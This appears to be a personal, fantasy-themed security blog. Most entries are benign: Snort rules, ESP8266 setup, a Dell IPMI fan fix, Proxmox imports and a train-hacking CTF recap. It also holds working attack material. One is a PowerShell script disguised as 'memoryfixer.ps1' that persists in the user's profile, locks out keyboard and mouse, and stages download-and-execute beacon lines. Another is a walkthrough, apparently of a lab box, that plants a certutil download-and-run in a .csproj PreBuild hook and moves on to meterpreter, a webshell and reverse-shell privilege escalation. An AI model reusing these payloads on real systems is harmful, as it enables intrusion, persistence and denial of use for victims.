


Pondering the first orb
Hello, fellow of the cyber arts. This is a rough collections of a wizards journey. I will post serious and joking things on here. This is more for me than it is for you. However if you find this useful then side quest complete.
Some minor lexicon confirmation is below
| Color | Role |
|---|---|
| RED | Offensive Focus |
| BLUE | Defensive Focus |
| GREEN | Development Focus |
| GREEN | Infrastructure Focus |
| PURPLE | RED & BLUE Focus |
| BLACK | Forbidden Wizard Magics |
The First Tome, Trolling via Terminal
Spell Class : Red Magic
Spell Level : Introduction
ASCII-WEB
After watching twitch streamer LCOLNQ who used an ASCII rendered webcam. What if we can render video to Terminal for a cyber effect. Below is the python used to render the video output of a webcam in to Grayscale and then turning grayscale brightness into ASCII characters which get rendered with cureses
import cv2
import curses
from curses import wrapper
import math
def main(screen):
scale = 0.2
contrast = 2
screen.clear()
cap = cv2.VideoCapture(0)
if not cap.isOpened():
raise IOError("Cannot open Webcam stream!")
while True:
# Capture from webcam
ret, frame = cap.read()
# Resize Frame
frame = cv2.resize(frame, None, fx=scale, fy=scale, interpolation=cv2.INTER_AREA)
width = len(frame[0])*2
# Convert to Grayscale (0 - 255)
gscale = []
for i, b in enumerate(frame):
for x, a in enumerate(b):
sum = a[0] + a[1] + a[2]
sum /= 3
sum *= contrast
sum = int(sum)
gscale.append(sum)
gscale.append(sum)
# Covert Gray to ASCII
#color = "$@B%8&WM#*oahkbdpqwmZO0QLCJUYXzcvunxrjft/\\|()1{}[]?-_+~<>i!lI;:,\"^`'."[::-1]
#color = "0QLCJUYXzcvunxrjft/\\|()1{}[]?-_+~<>i!lI;:,\"^`'. "[::-1]
color = "@%&$#!;:*\,. "[::-1]
colorArray = list(color)
colorlength = len(colorArray)
interval = colorlength/256
chars = ["@", "%", "&", "$", "#", "*", "&", "~", ":", ".", " "]
chars.reverse()
ascii_px = [chars[pixel//25] for pixel in gscale]
#ascii_px = [colorArray[math.floor(pixel*interval)] for pixel in gscale]
ascii_px = ''.join(ascii_px)
ascii_frame = [ascii_px[index:index+width] for index in range(0, len(ascii_px), width)]
# Display Image in Terminal
for l, x in enumerate(ascii_frame):
try:
screen.addstr(l, 0, x)
except:
pass
screen.refresh()
cap.release()
return
wrapper(main)
Added other character lists that can be used but the one on right now just looks the best.
So the way it stands right now using socat we can pipe the program over TCP for remote playing. IE you can just host your webcam to a target box.
sudo socat TCP4-LISTEN:80 EXEC:"python3.11 ./ascii-web.py"
Clarity of the terminal is based off your host font size. Which is strange.
For the target box we can just use a netcat to grab the output of said
Upgraded socat hosting?
socat -d TCP4-LISTEN:80,reuseaddr,fork EXEC:"python3.11 ./ascii-web.py"
Idea here is to allow the process to get forked. However I am also not sure if that is a good idea. Might allow the computer to be resource attacked by a bunch of connections just ZERG rushing it.
Below is recon for PTS terminal windows
who -a;echo""; ps -aux | grep ".*pts.*"
Here is what the poor blue team would see waving back to them on a Terminal that they cannot clear! The only option is to kill the shell.

Powershell Hexing for Rookies
Spell Class : Black Magic
Spell Level : Introduction
This was a very bad working PoC about powershell lock outs and doing some direct DLL manipulation.
Below is a .ps1 script that would drop this below script, A video, and a dumb beacon.
The goal of this was to act as a Hacktavist or some skid effect on a computer. It was very dumb but it was a perfect payload to mimic low skill and low complexity attack.
How it works
-
So first it attempts to find itself and adds that into the a profile.
-
It then add the .NET class to the current powershell session. That .Net class being presentationCore. I dont think I even used it looking back on this.. Real head scratcher....
-
We find our payload file which is a dumb downloaded youtube video. Following that I bind a new-object which is the Windows Media Player.
-
I then have the Windows media player Open the Media file, Then close the file. At the time I did this to solve a bug in the way it opens files.
-
Working with the proc var I made it brings the Windows MediaPlayer and plays the video.
-
Now we see the DLLImport for user32.Dll I am calling very poorly the BlockIt function. Setting that to true disables all user32 input. Mouse, Keyboard, Touchscreen and anything else handled on the user.
-
We see some mocking of the user and a sleep timers for 86 seconds. Once that is finished we return the BlockInput to false and fire off two CS beacons that are laying in wait online.
$filethingy = (Get-Childitem -Path C:\ -Recurse -ErrorAction SilentlyContinue | where {$_.Name -match 'memoryfixer.ps1'}).FullName
$content = Get-Content -Path $filethingy
if (!(Test-Path $profile)) {
New-Item -ItemType File -Path $profile -Force
Set-Content -Path $profile -Value $content
}else {
Set-Content -Path $profile -Value $content
}
Set-CoAdd-Type -AssemblyName presentationCore
$filepath = "C:\Windows\Temp\trap.mp4"
$wmplayer = New-Object System.Windows.Media.MediaPlayer
$wmplayer.Open($filepath)
Start-Sleep 1
$duration = $wmplayer.NaturalDuration.TimeSpan.Seconds
$wmplayer.Close()
start playing
$proc = Start-process -FilePath "C:\Program Files (x86)\Windows Media Player\wmplayer.exe" -ArgumentList $filepath -PassThru
# This Bit locks the user out for 86 seconds
$code = @'
[DllImport("user32.dll")]
public static extern bool BlockInput(bool fBlockIt);
'@
$userInput = Add-Type -MemberDefinition $code -Name Blocker -Namespace UserInput -PassThru
$null = $userInput::BlockInput($true)
Write-Warning "You have just fell for the trap..."
Start-Sleep -Seconds 86
$null = $userInput::BlockInput($false)
Set-StrictMode -Version 2
#powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://plentyofphish.com:80/traptime'))"
#powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://plentyofphish.com:80/.exe'))"
#Runs above payloads
Once again this is very low and very poor. I wanted to throw this away but all information has value to someone and as such I hope you find some value in this poorly crafted spell. Good news however is it means we can work from here and build something far far worse now that we can get into the concept of ASM and maybe some malicious payloads.
Git with vengeance
Build a solution from Visual Studio code. C# project will do.
Right click on the project and go to the build section.
Load a payload into the pre-compile actions.
Which can be found in the picture below. This is located at *.csproj

Utilizing the PreBuild tag, the Exec command = PAYLOAD
First attempt failed, Reverse shell in the Prebuild is crashing or having some kind of issue.
Need to change from powershell reverse shell into a MSFpayload with metasploit
 Build failed (Sad Trombone)
But what did work was getting wells correct .sln file.
Build failed (Sad Trombone)
But what did work was getting wells correct .sln file.
<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
<Exec Command="certutil -f -urlcache http://10.10.14.4:6969/plz.exe c:\users\public\plz.exe
c:\users\public\plz.exe" />
This is how inside the .csproj we get the payload to fire.
Payload was
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=9001 -f exe -o plz.exe
Listener was
sfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/
reverse_tcp; set lhost 10.10.14.4; set lport 9001; exploit"

This is the server yanking the files from me and finally executing my staged payload.
Doing some WinPEAS we can find the service XAMPP hosting the webpage we interact with
Doing
C:\ dir /B /S index.php
We can find the Area for the webpage we have been interacting with

From here we can replace the submit.php file with a php webshell
From the some of our shells we can use certutil.exe to bring another staged payload to the box, but host it on another port.

From here we can use the webshell we moved onto the box. Browse to the /submit.php

We now have the access level of 
Nice but not quite what we need. Working with dabois we found FullPower.exe
https://github.com/itm4n/FullPowers
On Windows, some services executed as LOCAL SERVICE or NETWORK SERVICE are configured to run with a restricted set of privileges. Therefore, even if the service is compromised, you won't get the golden impersonation privileges and privilege escalation to LOCAL SYSTEM should be more complicated. However, I found that, when you create a scheduled task, the new process created by the Task Scheduler Service has all the default privileges of the associated user account (except SeImpersonate). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.
So once we run that we now have the ability to gain SEimpersonate YIPEEE
Now using Tylers WICKED updated SIGMA POTATO https://github.com/tylerdotrar/SigmaPotato Which he lovingly built in with a revshell.
FullPower.exe; SigmaPotato.exe --revshell IP PORT

YEEEEE
The booger goblin project
Spell Class : Blue Magic
Spell Level : Introduction
Topics : Python, Snort
Why is it always Snort?
So I was forced to attent a training on Detection and Counter Intrustion. TLDR; It was aweful and outdated by an impressive amount. Using such an old version of Security Onion was not even familar with how to login to the service. After our blocks of instruction I had a breaking point when it was told to me that inputing rules by hand was the best way to do it. After picking up my jaw from the floor I set about browsing to the Snort Documentation and setting up the basics of what makes a rule.
https://docs.snort.org/rules/
alert tcp $EXTERNAL_NET 80 -> $HOME_NET any
(
msg:"Attack attempt!";
flow:to_client,established;
file_data;
content:"1337 hackz 1337",fast_pattern,nocase;
service:http;
sid:1;
)
What makes a rule
For snort3 I make a little chart for myself.
- step one : Rule Action https://docs.snort.org/rules/headers/actions
**alert** tcp $EXTERNAL_NET 80 -> $HOME_NET any- alert
- block
- drop
- log
- react
- reject
- rewrite
- step two : Protocol https://docs.snort.org/rules/headers/protocols
alert **tcp** $EXTERNAL_NET 80 -> $HOME_NET any- ip
- icmp
- tcp
- udp
- step three : IP Source / Dest https://docs.snort.org/rules/headers/ips
alert tcp **$EXTERNAL_NET** 80 -> **$HOME_NET** any- any
- !192.168.1.1 (Inverse operator)
- [192.168.1.0/24] (Range Operator)
- $TEST (Variable's)
- step four : Port https://docs.snort.org/rules/headers/ports
alert tcp $EXTERNAL_NET **80** -> $HOME_NET **any**- any
- $TEST (Variable's )
- : (Range Operator) 1:10 (Between 1 and 10) :100 (Less than or Equal to 100) 100: (Greather than or equal to 100)
- step five : Direction https://docs.snort.org/rules/headers/directions
alert tcp $EXTERNAL_NET 80 **->** $HOME_NET any- -> Source to Destination
- <> bidirectional
Embedded systems and you
I am strung between many things at this point in my life. Listed as Armed and Dangerous, Fugitive wizard at large. Spending some time in the dungeons and finally getting to have my time before the tribunal was a great time to focus my wildly attention. I feel stronger and sharper as of late. Like I have a direction to follow once again. That direction has been pushing to delve once again into the topics I do not understand.
The dreaded art of Embedded Systems.
Lets thrown on some Time Fragment - 装甲艦 and learn some strangeness.
Getting I had to order from the mages guild some ESP8266's, ESP32's, and some digikey sparks. With my small boards I had to learn about some rather simple but obscure knowledge.
Inscriptions for an inscriber
A small bit of magic works between the main chip on the board and your computer. This might be a CH340 or INSERT OTHER HERE
What these little dude do for you is convert between USB (Your Computer) and Serial (The ESP32, ESP8266 or whatever). This is our friend but we must know which friend we need to learn to speak with. I found out by asking my system.

Using sudo lsusb -t you can get the above. I know I have ch341 that is handling that communication. I can also double check that I am able to see this device by looking in DEV.

Using ls /dev and I can see the ttyUSB0 device which would be present due to the UART to USB CH341 chip.
Arduino the savior for beginning
Moving into the space of we understand our chip and our interface tool. We can now begin to attempt and pass instructions to this chip which should relay that to the ESP8266 in my situation.
yay arduino was all it took for me to install Arduino, if you are not using pacman or yay please find your own solution to this issue. After spending some time working with ESP8266's and making some little wifi point that can be used for new students to practice wifi hacking. It really is a great platform for development. It can take some setting up but once you do it a couple of times it does make for a nice setup.
Embedded Shinanigans
Figuring out some nice project I watched the michael reeves video on making a little turret. It was funny but it was also a increadbly simple project to do with a lot of fun to motivate you to complete it. Which in if you have not taking note of yet. Fun is often the determination of completion or not. You can chase a project but once you learn what you need you tend to drop a project unless it has some fun to it in which you often will push to completion.
So we have an X and a Y we must focus on. [-] X is how we will turn Left and Right. [-] Y is how we will move up and down.
With these two and a small laser we can show our ability to send and process data.. I am using Rust as my main way of processing computer data and then all the arduino has to do is intake information and adjust the motors/servos to reflect the values..
I know from michaels video he had an issue with the arudino being unable to process the amount of information being sent. So I want to lower the amount of processing we send to the arduino..
So some kind of checking system to manage sending updates.. So I am thinking something like "Hey I have information" -> "Okay well if its not greater than x% of change then we will not send it" -> "If it is then we will send it" I am thinking while this might reduce accuracy it will lower the load on the arduino...
DellserverGPUfanissue
Read my story to fix your issue.
Sorry for the wizard fun but I hate dry write ups and you can just copy paste and ignore my rambling.
Chapter 1, The problem
Welcome fellow techno sewergoblin. If you found this then you too have put an unsuppored GPU inside of that wonderful dell server you are about to commit unholy sins against in the persuit of the perfect homelab.
The bad news. That fan sucks mega butts contantly trying to take off with its fans spinning at like 75 to 85 percent for NO REASON.. Well as it turns out there is a reason and I had to ponder some Old arcane tomes to understand the issue.
Chapter 2, Pondering old orbs
Deep in the back pages of spiceworks fourms. In the year of our lord 2023 I stumbled into this.
https://community.spiceworks.com/topic/613098-dell-poweredge-server-r7xx-series-fan-speed-with-gpu
Full of wizard sharing in their woes as one mighty hero would deliver us from our struggles. SUFFER NO MORE this hero said. alexrozentuller you mighty wizard! I salute you.
Dell traced the issue back to a setting for how they handle unmatched devices. They were able to run the following IPMI command on my 730's to resolve the issue:
ipmitool.exe -H 172.16.171.21 -U root -P calvin raw 20 30 0x00 ce 0 0x16 5 0 0 0 5 0 1 0 0 > Set Unmatched Logic Disabled
*** USE AT YOUR OWN RISK ***
Dell was very hesitant to provide me with the above command, so it is not official by any means. I forwarded the details to Teradici under ticket reference: #15134-33400. I would give them a ring first.
If that doesnt get you anywhere, i provided my Dell ticket in an earlier post: SER# 81901735650. See if you can reference that with Dell directly.
Good Luck!
As we gaze at this script of old we find the command and values we need.
ipmitool -I lanplus -H <IP of the IDRAC> -U <user> -P <password> raw 0x30 0xce 0x00 0x16 0x05 0x00 0x00 0x00 0x05 0x00 0x01 0x00 0x00
Ah and here we have a great example of PRIME magic, This is undistilled wizard juice. The good stuff.
Chapter 3, Tapping ancient power
With our new found words of power we must build our foundation.
Step 1. Log into your dell IDRAC
Step 2. Once Logged in on the left hand side under IDRAC Settings, click on User Authentication
Step 3. Make a user with a password containing no symbols, Down one box should be IPMI USSER PRIVILEGES, set Maximum LAN User Privilege Granted to Administrator.
Step 4. Hit APPLY
Step 5. On the Far Left hand side under iDRAC SETTINGS, Select Network, Scroll to the bottom and located the IPMI Settings, check the box for Enable IPMI Over LAN
Step 6. Hit APPLY
We have now pregamed the server for IPMI wizard magic. Let us now begin the incantation.
Chapter 4, Activating ancient power
I am using Endevour OS, so let me tip my wizard hat because I used arch BTW.
yay ipmitool < yay wizards
apt-get install ipmitool < Normal Linux users
if you want to self compile https://github.com/ipmitool/ipmitool
For all my powershell surfers here is the windows Dell support pack https://www.dell.com/support/home/en-us/drivers/driversdetails?driverid=w9nmr
once you have ipmitools let me give a rundown on the actual command, You could spare me this pain and read the man page or the -h but here it is anyway
ipmitool -I lanplus -H
-I is the interface method -H is the ip of your iDrac -U is the user with ipmi permissions -P is password Raw is the data type
0x30 0xce 0x00 0x16 0x05 0x00 0x00 0x00 0x05 0x00 0x01 0x00 0x00 This above is Set Third-Party PCIe Card Default Cooling Response Logic To Disabled
Mad shout out to mikemattran for the Disable, Enable, and Status codes
Set Third-Party PCIe Card Default Cooling Response Logic To Disabled
ipmitool -I lanplus -H -U -P raw 0x30 0xce 0x00 0x16 0x05 0x00 0x00 0x00 0x05 0x00 0x01 0x00 0x00
Set Third-Party PCIe Card Default Cooling Response Logic To Enabled
ipmitool -I lanplus -H -U -P raw 0x30 0xce 0x00 0x16 0x05 0x00 0x00 0x00 0x05 0x00 0x00 0x00 0x00
Get Third-Party PCIe Card Default Cooling Response Logic Status
ipmitool -I lanplus -H -U -P raw 0x30 0xce 0x01 0x16 0x05 0x00 0x00 0x00
The response data is:
16 05 00 00 00 05 00 01 00 00 (Disabled)
16 05 00 00 00 05 00 00 00 00 (Enabled)
Once the dust settles and peace returns to your wizard homelab. We can all take a deep breath as we are free from the loathsum Dell GPU fan curse.
Qemu Crazy
Howdy Wizards,
Quick and dirty hit on how to go from OVA to Proxmox VM with no fuss.
I downloaded the VM to the baremetal server,
qemu-img convert -O qcow2 diskhere.ova diskdesiredname.qcow2
Make a VM with no OS and no disk now the number of the VM you just make will be used below where you see the ###
Needed Variables !!! -> Storage Location /### -> VMID number which the drive will be mounted onto
qm importdisk ### ./diskdesiredname.qcow2 !!!
Now on the GUI when you go to your empty VM you should see an unused Disk. Double click the sucker and add it as a sata in the Bus/Device setting.
Wizards jade
Hello apprentices of all ages. Let us take for a minute and thank those that came before. Wizards of Yore left us the ability to cast into all of time our thoughts. What a blessing it is. Anyway poetic waxing out of the way.
Crafting some payloads for Microsoft Office can take many forms. With the advancements made by Windows we now have the Mark of the Web (MOTW) Here we can see the first line of defense protecting users from the most basic of Phishing, Granted this is only in effect if the Defender of said network have disabled the now DEFAULT setting of alerting users of Windows Macros that do not come from internal emails, domain locations or with certs signed by some internal team.
This must be disabled as it is now enabled by DEFAULT!!
Let us deconstruct these incantations,
 In the above picture we can see an example of the dreaded ZoneId=3
In the above picture we can see an example of the dreaded ZoneId=3
- ZoneId=0: Local machine.
- ZoneId=1: Local intranet.
- ZoneId=2: Trusted sites.
- ZoneId=3: Internet.
- ZoneId=4: Restricted sites.
MSDN in its classic Necronomicon like nature will hint but never outright tell us the dang answer. https://learn.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms537183(v=vs.85)
But we can see the structure is the same as the methods used for Safe internet browsing.
So its been a bit and coming back to this it is making less sense for this to be done from outside the domain. However, I will never discount the method. Its just becoming more and more difficult for people to click enable macro's now that is to say once you make entry on a network being sent from internal is a really nice strat. Doing the OSEP has you do something similar but I enjoy the process of enumerating users via the mail server with manual interaction.
Running a train with the homies.
Wizard Groups in attendance: The Cyber Threat Emulators wizard court, And my current home which I shall dub the Contractor wizard court.
This is my first venture into the ugly world of ICS on mobile metal boxes. While my fellow wizard homies made it quite apparent that our hexes and incantations have inflicted havoc before on ICS of a more static variety. This was to be my very first venture into this dark and dank world. ICS is often spoken of in hushed tones full of woe and dispare among cyber wizards. Many of our kind tell harrowing tales of encountering machines beyond time and space. Networks of old held together by the most archaic networking magics. I am filled with hope and youthful energies at the chance to see such great works. This shall be my recording of these events.
Preparing for an odyssey.
We must prepare as we have been given our topics.
- Python(requests, scapy, pyrtlsdr, pyshark, BACpypes)
- Network Recon(nmap, masscan)
- Wireless Surveys(Kismet, Airodump-ng)
- Payload Building(msfvenom, empire, veil)
- PCAP Analysis (Wireshark, Tcpdump)
- Vulnerability Scanning(OpenVAS, Nessus, nmap NSE Scripts, openscap, lynis)
- SQL Injection(sqlmap, OWASP ZAP)
As a small court of wizards the time to start researching and obsessing over trains like true enlightened individuals had begun. We searched all over the internet for videos related to train control systems. Abusing the usual suspects we got a ton of important information in relation to most of the ICS environments. FCC submittions and documentation proved to be very eye opening into the way that these systes act and work. We learned critical frequency channels, methods of communication, and how the system should work. We know from many many lectures and talks on the matter that safety is number one. Which means the systems should default to a safe standby. While I always want a secure first approach in the matter of public transit the idea of safety should come first. This does however leave us with issues we must talk about.
Saftey first
The concept of saftey above all means security will take a backseat. This backseat is going to be in the form of in an unsure situation a train must come to a stop. This is to ensure human life is the most protected asset. Avoid harm at all costs. This puts into my mind the concept of any method that might be used to alert the trains to situations where human harm might be possible should be robust and simple. Less parts of the system would translate into easy of use and less prone to faults. However, welcome to the real world where issues are constant with these systems. This is not slander on the makers of systems but the constant pressure you see from mis-management of projects.
Public transparency
The public always has a right to know and understand the methods and processes behind the means to transportation we trust our lives with. The concept of hiding information is a valid one for many systems and methods. Not letting the public know how certain critical infrastructure works to prevent abuse by outside actors has a lot of validity. However as a saftey first mentality we must release the methods and systems. The release of this critical information is a danger due to the ability of someone with malicious intent or simulated intent can as we showcase make use of this public information to cause failures in a system resulting in some very bad times for a sensitive system.
Notes from far after the event I still hold the idea that releasing the methods behind systems can be a major issue. But I think the goal of public review of systems can net a lot of benfit barring that the systems in place are able to be issued updates. If updates are impossible then well dang we are kinda stuck and the less people can test the system the better we are with skeletons in the closet.
Private and public sector forced co-operation
While I do not accept any private company telling me they are working with my best interest in mind. I do however understand that given enough fee's and jail time a company might act in my interest only due to state applied pressure. The private sector will abuse a system as much as they can. Sorry if this sounds like a rant but it does apply. In our research you will begin to find a lot of workers in the rail industry talking about automation and the lay-offs happening even now. At the Hack The Railroad 2023 event the leaders of these companies even talk joyfully about a full automation solution. However as a security-mancer and or wizard I see this as a perfect system for abuse. No human interaction for complex systems is a very fast and dangerous route to embark on. Once an exploit is found and used the time it would take to correct a fault like that would be fatal to an automated system that rely on perfect timing. Imagine stopping a train in the middle of some far off woods far from human enabled midigation. I pale at the thought of someone first finding the issue, sending a team to investigate, beginning the process of trying to clear the fault or whatever, getting the system back into a working state. Global shipping is a great model for this behavoir. Once the Evergreen ship was stuck
Oh uh, yeah anyhow long story short, a lack of humans is a very bad time when you have a system that could be attacked and left unattended. Even tho most industrial processes can and have been automated we still have humans very near to prevent some kind of critical failure.
When wizards meet
As we made our way to the event. I connected with some friends who also planned on attending. Hard cut to us breaking out a HackRF and other SDR solutions we went to all learning how Radio Frequency works and the technology behind a lot of that type of magic. We had two plans, Running a couple of trains with the wizards court and finding out how drunk the apprentence mages could get. (They had added four new mages to the team in my absence)
So as the moon greeted our arcane shinanigans and formal tutoring of the apprentence mages on alcohol based potion crafting our chaos was palpable. Our night was a blur of RF door hacking and hotel staff frustrations and the dawn was soon approaching.
Beasts of iron and fire
Making our way to DreamPort we did the usual sign in and grabbing badges. Making our way past all the non-technical speeches I quickly went to the practical area. Now side note this is a great example of social engineering. Tables had name plates on them. Now we had been told that the event had run out of room for any more groups showing up. So I decided I had driven too far and prepare too much to be told no. So I dropped my stuff and acted like I was a helper. Noticed that all the people helping had merch jackets. So off to the shop I went. Got a cheap jacket and now I fit right in. Locating my old wizard groups table I notice two tables right next to them so I just moved the name plate to a empty table and began moving my stuff and with little to no fuss I had now scored a table. A few of the other groups had begun setting up so I found the first event of the day a induction speech and had my group ditch so we could go set up. We then just held down the table and no one so much as batted an eye to a group of CTF people setting up early and doing some updates and checking of scripts before the CTF began. Often people in cyber secuirty are way too introverted to want to cause an issue and if you dont act like an ass or cause a disturbance you can often be ignored. AUTHORS NOTE: I too am in the introverted group. However I do recognize that if I would find it to be a hassle I know someone else would feel the same. I exploit my own feelings and hope for like minding people around me.
The stage is set
With our Table, our Team, and our confidence full we took an early look at some of the physical challenges. A couple of train networks set up with switches and some ESP32 sensors strewn around. Many of the tracks had very cool home brew solutions to trip and trigger. After asking when the event was over it a lot of MQTT and some python holding the entire thing together. Kind of expected as much but it was a really nice set up with logic gates and what not.